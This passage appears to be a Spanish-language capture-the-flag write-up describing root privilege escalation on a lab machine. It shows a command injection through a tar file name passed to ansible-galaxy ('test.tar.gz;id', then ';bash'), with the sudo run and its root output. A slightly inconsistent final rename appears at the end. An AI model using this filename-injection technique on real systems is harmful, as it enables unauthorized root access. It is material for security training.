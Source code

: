 Este método requiere un archivo .tar y le pasa al binario /usr/bin/ansible-galaxy el parámetro que recibe el método.
En este caso es lo que esté en el atributo `role_file`

![Write-up Image](images/Screenshot_28.png)

Por lo cual si en el `role_file` incluimos un archivo .tar válido y acto seguimos inyectamos un comando, podríamos ejecutar un comando como el usuario `root`.

En el archivo se realiza una válidación del archivo .tar, por lo cual podemos crear un archivo .tar que se llame "loquesea.tar.gz;id" y así inyectar el comando.

Así habría quedado el archivo .json
```json
{
  "run": {
    "action": "install",
    "role_file": "/tmp/test.tar.gz;id"
  },
  "auth_code": "UHI75GHINKOP"
}
```

Ahora creamos el archivo .tar
```shell
lopez@intuition:/tmp$ tar -cvf test.tar.gz test.json 
test.json
```

## Inyectando un comando como `root`

Ahora cambiamos el nombre al archivo .tar
```shell
lopez@intuition:/tmp$ mv "test.tar.gz" "test.tar.gz;id"
```

```shell
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 test.json
Starting galaxy role install process
[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when
attempting to call Galaxy at 'https://galaxy.ansible.com/api/': <urlopen error [Errno -3]
Temporary failure in name resolution>
ERROR! - you can use --ignore-errors to skip failed roles and finish processing the list.
uid=0(root) gid=0(root) groups=0(root)
```

Y se acontece la inyección del comando `id` y se ejecuta como el usuario `root`

Ahora para conseguir una bash, cambiamos el nombre del archivo a `test.tar.gz;bash`
```shell
lopez@intuition:/tmp$ mv "test.tar.gz;chmod u+s bash" "test.tar.gz;bash"
```
